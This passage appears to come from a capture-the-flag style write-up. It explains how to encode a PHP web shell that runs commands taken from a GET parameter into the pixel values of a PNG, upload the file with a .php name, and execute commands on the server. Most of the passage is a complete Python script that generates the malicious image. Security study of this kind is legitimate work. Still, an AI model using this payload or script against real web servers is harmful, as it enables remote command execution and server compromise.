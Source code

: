 Some characters get replaced, those in the position of the alpha channel. If we try to increase the alpha value by 1,
they will still be replaced with a higher value. Honestly, I have no idea why, probably some weird computations in the library.

We can work around this by placing spaces in the payload. For example, for this payload:
```python
payload = b"<?=`       $_GET[0]`?>"
```
the final file is fine:

![](05.png)

Now, we just need to upload the `.png` file with the literal name of `.php` and visit the file location. We can run commands
via the `?0=` query parameter.

Final Python code:

```py
def chunks(list_, n):
    for i in range(0, len(list_), n):
        yield list_[i:i + n]

payload = b"ABCDEFGHIJKLMNOPQRSTUVWXYZ"
payload = b"<?=`       $_GET[0]`?>"
colors = []

for chunk in chunks(payload, 4):
    chunk = chunk.ljust(4, b";")
    g, r, a, b = chunk
    final = bytes([a, r, g, b])
    print(final)
    final = int(final.hex(), 16)
    colors.append(final)

width = len(colors) // 2
height = width
width = 32
height = 32

image = Image.new("RGBA", (width, height))
pixels = image.load()

for y in range(height):
    for x in range(width):
        index = y * width + x
        color = colors[index] if index < len(colors) else 0
        r = (color >> 24) & 0xFF
        g = (color >> 16) & 0xFF
        b = (color >> 8) & 0xFF
        a = color & 0xFF
        pixels[x, height - y - 1] = (r, g, b, a)

image.save("exploit.png")
```

